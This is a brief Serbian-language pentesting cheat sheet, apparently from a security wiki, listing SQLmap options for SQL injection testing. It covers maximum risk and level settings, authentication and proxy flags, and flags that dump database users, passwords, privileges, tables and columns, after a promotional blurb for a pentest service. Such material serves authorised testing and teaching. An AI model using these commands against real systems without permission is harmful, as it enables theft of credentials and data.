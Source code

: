 **Trenutno dostupno podešavanje za procenu ranjivosti & testiranje prodiranja**. Pokrenite kompletan pentest od bilo kog mesta sa 20+ alata i funkcija koje idu od izviđanja do izveštavanja. Mi ne zamenjujemo pentestere - mi razvijamo prilagođene alate, module za detekciju & eksploataciju kako bismo im vratili neko vreme da dublje kopaju, otvaraju školjke i zabavljaju se.

{% embed url="https://pentest-tools.com/" %}

## Osnovni argumenti za SQLmap

### Generički

```bash
-u "<URL>"
-p "<PARAM TO TEST>"
--user-agent=SQLMAP
--random-agent
--threads=10
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>"
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

### Dobijanje informacija

#### Interno

```bash
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```

#### Podaci iz baze podataka

```bash
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```
